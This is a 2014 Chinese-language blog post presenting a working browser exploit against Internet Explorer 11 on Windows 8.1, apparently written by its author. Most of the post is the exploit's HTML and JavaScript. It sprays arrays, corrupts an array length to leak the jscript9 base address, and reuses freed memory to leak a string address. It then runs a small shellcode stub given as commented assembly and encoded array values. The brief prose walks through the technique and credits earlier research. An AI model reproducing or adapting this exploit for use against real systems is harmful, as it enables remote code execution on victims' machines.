 Title: Windows 8.1 + IE 11 Exploit
Date: 2014-02-28
Tags: Exploit


![Windows8.1_IE11_Exploit][Windows8.1_IE11_Exploit]


我的第一版只包含信息泄漏功能的代码只用了7行javascript。简单说一下这个方法比较有意思的地方吧，因为IntArray类型的数组在存储数据时高位不能为1。否则其会以double形式存储。这就导致我们在使用其存储shell code时需要编码(解决高位为1的问题)。而我比较喜欢用字符串来存储我的shell code，这样就可以将我以前的shell code不需要修改直接拿来使用了。

解决这个问题，我的思路主要是，先释放一个IntArray对象，然后使用一个ObjectArray类型的对象进行占位。这个ObjectArray对象内部保存着存储了shell code字符串的指针。这样就可以再进行一次信息泄漏来实现读取字符串的地址了。而因为IE 11内部存储字符串使用的是Js::LiteralString对象进行存储的。所以直接读取的其实是Js::LiteralString对象的地址而不是存储了shell code的BSTR的地址。解决这个问题我使用了一个技巧，详细可以看代码。简单的说就是，用一个很小的shell code来实现获取存储了shell code的BSTR的地址。再将其写入到IntArray中泄漏出来。很简单，但很有效。

因为我喜欢用最简单的方法来解决问题，所以我的代码极其短小、整洁。

代码具体如下：

```
<html>	<body>		<script>            function exp()            {                var array_1 = new Array();                var size = 0x1000 * 0x100;                for(var i=0; i<size; i+=1)                {                    array_1[i] = new Array(1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1);                }                for(var i=size-2;i>0;i--)                {                    array_1[i][22] = 0x7fffffff;                    array_1[i][29] = 0x7fffffff;                    array_1[i][30] = 0x7fffffff;                    if(array_1[i+1].length == 0x7fffffff)                    {                        var array_vft_address = array_1[i+1][18];                        var jscript9_base_addr = array_vft_address - 0x00004534;                        var shell_code = "\u9090\u9090";                        delete array_1[i + 3];                        CollectGarbage();                                                var new_obj = new Array(shell_code,shell_code,shell_code,shell_code,
                        shell_code,shell_code,shell_code,shell_code,
                        shell_code,shell_code,shell_code,shell_code,
                        shell_code,shell_code,shell_code,shell_code,
                        shell_code,shell_code,shell_code,shell_code,
                        shell_code,shell_code,shell_code,shell_code,
                        shell_code,shell_code,shell_code,shell_code);                                                array_1[i][0] = jscript9_base_addr + 0x00143BA1;                        array_1[i][1] = 0x0c0c0000;                        array_1[i][4] = 0x0c0c0000;                        array_1[i+1][18] = 0x0c0bffbc;                        0x0c0c003c in (array_1[i + 2]);                        array_1[i][0] = 0x0c0c003c;
                        //get bstr address                        //A1 90010C0C   mov eax,dword ptr ds:[0xC0C0190]                        //83C0 0C       add eax,0xC                        //8B18          mov ebx,dword ptr ds:[eax]                        //8BC3          mov eax,ebx                        //A3 B8000C0C   mov dword ptr ds:[0xC0C00B8],eax                        //C2 0400       retn 0x4
                        array_1[i][1] = 0x0c0190a1;                        array_1[i][2] = 0x0cc0830c;                        array_1[i][3] = 0x4646188b;                        array_1[i][4] = 0x4646c38b;                        array_1[i][5] = 0x0c00b8a3;                        array_1[i][6] = 0x0004c20c;                        0x0c0c003c in (array_1[i + 2]);                        var bstr_addr = array_1[i + 1][0];                        array_1[i][0] = jscript9_base_addr + 0x00143BA1;                        array_1[i][1] = 0x0c0c0000;                        array_1[i][4] = bstr_addr-2;                        array_1[i+1][18] = 0x0c0bffbc;                        (0x0c0c003c) in (array_1[i + 2]);                        alert("bstr protect edit");                        array_1[i][0] = bstr_addr;                        0x0c0c003c in (array_1[i + 2]);                        break;                    }                }            }		</script>	</body></html>
```

感谢：

* @tombkeeper
* @ga1ois
* @bluerust

在此还要感谢这篇文章的作者，《A browser is only as strong as its weakest byte Exodus Intelligence》:http://ifsec.blogspot.jp/2013/11/exploiting-internet-explorer-11-64-bit.html，没有你那么深刻的讲解，我自己也许不知道什么时候才能想的到这么巧妙的方法。所有的掌声都送给你。

[Windows8.1_IE11_Exploit]: /Windows8.1_and_IE11_Exploitimages/Windows8.1_IE11_Exploit.gif